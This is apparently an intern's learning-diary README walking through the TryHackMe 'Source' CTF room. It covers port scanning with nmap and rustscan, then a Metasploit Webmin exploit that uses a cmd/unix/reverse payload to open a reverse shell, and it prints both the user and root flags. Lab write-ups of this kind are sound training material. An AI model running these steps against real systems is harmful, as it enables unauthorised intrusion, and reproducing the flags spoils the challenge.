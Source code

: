 # Cyber Security Internship Diary

Welcome back to my Cyber Security Internship Diary! This repository documents my daily learnings and experiences during my internship in the field of Cyber Security. Here, I'll share insights, concepts, and practices that I encounter throughout this journey.

## Day-09: TryHackMe Room ([Source](https://tryhackme.com/r/room/source))

Today, I explored several new tools and concepts while working through a TryHackMe room. Here are the key learnings:

### 1. Rustscan
Rustscan is a fast port scanner that is designed to quickly scan for open ports on a target machine. It uses the Rust programming language, which provides both speed and reliability.

### 2. Metasploit
Metasploit is a powerful penetration testing framework that helps security professionals identify and exploit vulnerabilities in various systems. It offers a wide range of tools and exploits that can be used to simulate real-world attacks.

### 3. MFConsole (Usage Example)
MFConsole is the command-line interface for Metasploit. It allows users to interact with the Metasploit framework and perform various tasks such as launching exploits and running auxiliary modules.

**Usage Example:**
MFConsole can be used to deploy payloads in scenarios such as ransomware attacks or other malicious activities. For instance, an attacker might use Metasploit to deliver a ransomware payload that encrypts files on the target machine, demanding a ransom for decryption.

### 4. RHOSTS & LHOST
- **RHOSTS:** This stands for "Remote Hosts" and refers to the IP address(es) of the target machine(s) that you are attacking. It tells Metasploit which machine(s) to direct the exploit towards.
  
- **LHOST:** This stands for "Local Host" and refers to the IP address of the attacker's machine. It is used to receive the connection back from the target machine once the payload has been executed.

### 5. Web-Extension Hack-Tools
Hack-Tools is a web extension that provides a wide range of tools for web penetration testing. It includes features such as encoding/decoding, IP address lookup, and various other utilities that are useful for web security assessments.

### 6. Nmap vs. Rustscan

| Feature        | Nmap                                      | Rustscan                               |
|----------------|-------------------------------------------|----------------------------------------|
| Speed          | Slower due to comprehensive scanning      | Very fast, designed for quick scans    |
| Flexibility    | Highly flexible with many options         | Less flexible, focuses on speed        |
| Programming    | Written in C                              | Written in Rust                        |
| Usage          | Widely used for detailed network analysis | Best for quick port scanning           |
| Installation   | Available on most systems                 | Requires installation of Rust          |

### Here is how i did the CTF 

#### Starting with the setting up the openvpn with the room if you don't know how to setup the openvpn then follow this [Openvpn-setup](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-07/README.md).
After that i have learned a new and cool way to store the to store the ip address of the machine given to us by the tryhackme
```
sudo nano /etc/hosts
ip address  source.com

```
Now we have kept the ip in a very cool way lets nmap the site so we can get the deatils 
```
 sudo nmap -Pn -p- -sV --script vuln -vv -oN noping-sv-sc-source.txt source.com

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/nmap%20scan.png?raw=true)

When you try this you will know that it is taking a long time we can do a short alternative download rustscan. Download this only from this site their are malicous code on the internet [Rustscan](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan_2.2.3_amd64.deb)
after then we run the command 
```
 sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/rustscan-report.png?raw=true)

But the problem with the rustscan is that it only gives us the port avaliable as fast as possible but it doesn not provide us the services running on that port. So we need the nmap for this 
```
 sudo nmap -p(port no.) -sV source.com
  
```
After we get the service search the exploit on the exploitdb 

We use Metasploit for the futher the nessary commands for the further excutions are listed below
```
 msfconsole

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/msfconsole.png?raw=true)
```
search Webmin

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/search%20webmin.png?raw=true)
```
use 7
show options
```
![]()
```
set RHOSTS 10.10.180.246
```
```
set LHOST 10.17.88.92
```
```
set LPORT 5566
```
```
show options
```
![]()

Now after all the above the things do these final things one after anothers 
```
exploit
set AutoCheck false
show payloads (select the payload with no. 41)
set payload cmd/unix/reverse
set SSL true
show options 
```
![]()

After all above things now just put this command and then hit enter.
``` exploit ```
![]()
After this enter the following commands 
```
python -c 'import pty; pty.spawn("/bin/bash")'
cd
ls
cat root.txt

```

After this lets find the user.txt 
```
cd /ho
ls
cd /dark
ls
cat user.txt
```
# Task1 
### Answer the questions below
#### user.txt
``` THM{SUPPLY_CHAIN_COMPROMISE} ```
#### root.txt
``` THM{UPDATE_YOUR_INSTALL} ```
## Conclusion
Today, I delved into several advanced tools and concepts that are crucial for penetration testing and cyber security. These tools, including Rustscan and Metasploit, along with their various features and commands, are invaluable for any security professional. 

Stay tuned for more updates and insights from my ongoing journey in the world of Cyber Security!

